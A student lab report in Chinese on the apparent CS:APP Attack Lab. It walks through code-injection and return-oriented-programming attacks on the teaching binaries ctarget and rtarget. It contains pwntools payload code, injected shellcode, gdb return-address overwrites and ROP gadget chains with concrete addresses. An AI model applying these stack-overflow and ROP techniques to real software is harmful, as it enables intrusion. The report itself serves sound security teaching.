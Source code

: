 <p align="center" style="font-size:30px">Target Lab Report</p>

### 一、实验内容

利用代码注入和返回地址劫持（code injection and return-oriented programming）漏洞将程序运行路径调整到目标路径上来。

### 二、实验目的

理解缓冲区溢出攻击的危险性。

### 三、实验环境

- VMware虚拟机内<img src="target/targetlab.png" alt="targetlab" style="zoom:67%;" />

- 使用 gdb 的 pwndbg 插件，hyper 终端分栏辅助显示。

  <img src="bomb/data_start.png" style="zoom:30%;" />

- **pwndbg 使用 INTEL 语法，编写的 shellcode 也使用 INTEL 语法**

- 使用 python2 pwntools 辅助

#### 四、实验流程

##### 术语：

- shellcode 即注入的汇编指令，由于在攻击中一般用于 getshell，故得名。
- payload 即攻击字符串，用于执行一次有效攻击。

**ctarget 中 3 个目标：**

1. 首先阅读该实验的官网指导，明确目标为将返回地址劫持为有 `touch` 字样的函数，并了解到目标是 gets 函数的栈溢出。

2. 试运行，找到指导提示中的 Gets 函数。

   <img src="target/gets.png" alt="gets" style="zoom:80%;" />

3. rsp 降低 0x28 并作为参数传入，可知字符数组的长度。填入 0x28 个字符后可以操作返回地址，比如我们将填入 40 个 a 之后的返回地址位置手动改成 touch1 函数的地址

   ```shell
   pwndbg> print *(int)($rsp + 0x28) = 0x4017c0  # 把当前 rsp+0x28 位置的地址改为 touch1 
   ```

4. 继续运行可以满足要求。

5. 在 python 中构建 payload 并写入文件

   ```python
   In [1]: from pwn import *
   
   In [2]: f = open("string1", "w")
   
   In [3]: f.write("a"*0x28 + p32(0x4017c0)) # 40个a后填入转换为字符串的返回地址并写入文件。
   
   In [4]: f.close()
   ```

6. 在命令行中使用管道符将字符串传递入执行文件

   <img src="target/string1.png" alt="string1" style="zoom:80%;" />

7. 下一个目标，由提示代码可知，需要将 cookie 塞入 edi 再进行 touch2 调用。即需要写一段 shellcode 去运行。

   ```c
   void touch2(unsigned val)
   {
       vlevel = 2; /* Part of validation protocol */
   	if (val == cookie) {
   		printf("Touch2!: You called touch2(0x%.8x)\n", val);
   		validate(2);
   	} else {
   		printf("Misfire: You called touch2(0x%.8x)\n", val);
   		fail(2);
   	}
   	exit(0);
   }
   ```

   本来如果没有 vlevel 变量，完全可以直接跳转到 validate 函数去运行。但如果有的话，必须运行自己的代码修改寄存器或者内存的值再跳转到 touch2 运行。

   

8. 因此可以有两种方案，一个是获取 cookie 装入 edi，一个是将数字 2 填入 vlevel 变量的目标地址，分别对应如下两个 payload：

   ![edi](target/edi.png)![vlevel](target/vlevel.png)

9. 将其转换为机器码后填补后续空位到 40 字节，接两个目标返回地址，先是字符数组开头地址，随后是 touch2 的地址（第二种方案直接跳转到判断之后）
	
	```gas
   Dump of assembler code for function touch2:
      0x004017ec <+0>:     sub    rsp,0x8		# 第一方案修改eip之后跳转到这里
      0x004017f0 <+4>:     mov    edx,edi
      0x004017f2 <+6>:     mov    DWORD PTR [rip+0x202ce0],0x2    # 0x6044dc <vlevel>
      0x004017fc <+16>:    cmp    edi,DWORD PTR [rip+0x202ce2]    # 0x6044e4 <cookie>
      0x00401802 <+22>:    jne    0x401824 <touch2+56>
      0x00401804 <+24>:    mov    esi,0x4030e8 # 第二种方案修改上面的<vlevel>处的值后跳转到												 这里
      0x00401809 <+29>:    mov    edi,0x1
      0x0040180e <+34>:    mov    eax,0x0
      0x00401813 <+39>:    call   0x400df0 <__printf_chk@plt>
      0x00401818 <+44>:    mov    edi,0x2
      0x0040181d <+49>:    call   0x401c8d <validate>
      ...
   ```

<img src="target/save_2.png" alt="save_2" style="zoom:80%;" />

10. 管道传入：

    <img src="target/string2.png" alt="string2" style="zoom:80%;" />

11. 再看 touch 3，vlevel 验证机制和 touch 2 中的一样脆弱，所以修改上面第二种方案的 payload 可以直接 PASS。

12. 正常解法：本题要求 cookie 的 16 进制字符串表示匹配。所以先把16进制的字符串存在栈中，再调用目标函数：

13. 这里先给出 shellcode：

    ```gas
     sub rsp, 48							# 避免数据冲毁代码
     push 0x61663739						# 64位push指令没有办法直接push64位的立即数，且字											  符串尾部需要0。所以先把后四个字符“97fa”填入栈										  中，高32位自动补0
     mov DWORD PTR [rsp-0x4], 0x39623935	# 这里只好使用指定地址的赋值方式填入四个字节
     sub rsp, 0x4							# 再移动栈顶
     mov rdi, rsp							# 预先把字符串开头放入传参寄存器
     push 0x4018fa							# 装填 touch3 地址，返回
     ret
    ```

    最终效果：

    <img src="target/string3.png" alt="string3" style="zoom: 67%;" />

**rtarget 中 3 个目标：**

1. 第一题和上面完全一致，返回地址都是相同的。故使用同一个文件 string1 即可。

2. 第二题，rop 即把所需的数据放在栈上，在 esp 指向该内存时使用 `pop <reg>` 将数据存于指定寄存器。比如对比 string2，我们可以先覆盖返回地址为一个 gadget 的地址，在返回地址后放入 cookie，只需要找到 pop edi 和 ret 命令即可将 cookie 放入寄存器。最后跟上 touch2 的地址即可。

   ```python
   In [12]: payload = "a"*40 + p64(0x40141b) + p64(0x59b997fa) + p64(0x4017ec)
                       占位      gadget 地址        cookie 值        touch2 地址
   In [13]: save('stringr2', payload)
   ```

<img src="target/stringr2.png" alt="stringr2" style="zoom:70%;" />

3. 第三题要求可以使用 `start_farm` 到`end_farm` 中的所有函数做 rop 攻击。而字符串内存地址只能来源于 rsp 栈标记，而 rsp 又罕见直接赋给 rdi 的情况，所以需要寄存器之间中转。rax 与其他寄存器之间的关系一般比较紧密，所以可以考虑以此为中转。如果考虑直接将当时的 rsp 所指位置存放字符串并将地址经中转转移到 rdi，需要有退栈操作保证该字符串不做为返回值被使用，而该题没有这种条件。又观察到 farm 中给出许多 lea 指令：

   <img src="target/rop_lea.png" alt="rop_lea" style="zoom:75%;" />

   其中 rdi + rsi 是可以利用的，我们可以将 rsp 的值移动入 rdi，在栈中计算好字符串偏移量，将值 pop 赋给 rsi。最后通过 lea 寻址命令让 rax 指向字符串地址。（其实只有 rax 才能保存 rsp 的长度，这里只是在 farm 中搜索 rop 可以利用的字符串的搜索结果）。

   rop 段如下：

   ```gas
   mov rax, rsp
   ret
   mov rdi, rax
   ret
   pop rsi
   ret
   lea rax, [rdi + rsi]
   ret
   mov rdi, rax
   ret
   ```

   构造 payload 如下：

   ```python
   payload = "59b997fa" + "\x00"*32 + p64(0x401a06) + p64(0x4019a2) + p64(0x401383) +\ 
   		    字符串    字符串尾0与占位     地址1            地址2            地址3
             p64(0xFFFFFFFFFFFFFFD0) + p64(0x4019d6) + p64(0x4019a2) + p64(0x4018fa) 偏移量-48（避免检验函数栈破坏字符串所以靠后放置）地址4          地址5            touch3
   ```

   结果：

   <img src="target/stringr3.png" alt="stringr3" style="zoom:80%;" />

   （这里实际上没有按照规则来，0x401383 这个地址不属于 farm 的范围，而是直接搜索 text 段范围得到的 gadget。）

#### 五、总结

​		本次实验总体上收获很多，比如 rop 的概念在半年前就听说过，真正完成这个实验才了解其原理和手段，即多次控制返回值进行片段式攻击。当然顺便也熟练了对 pwndbg 的使用，了解了 gdb 的 reverse-debugging。在反复尝试中揭开 pwn 领域的未知迷雾，还是很令人兴奋的。

​		（差点把 32 位的实验也做一遍）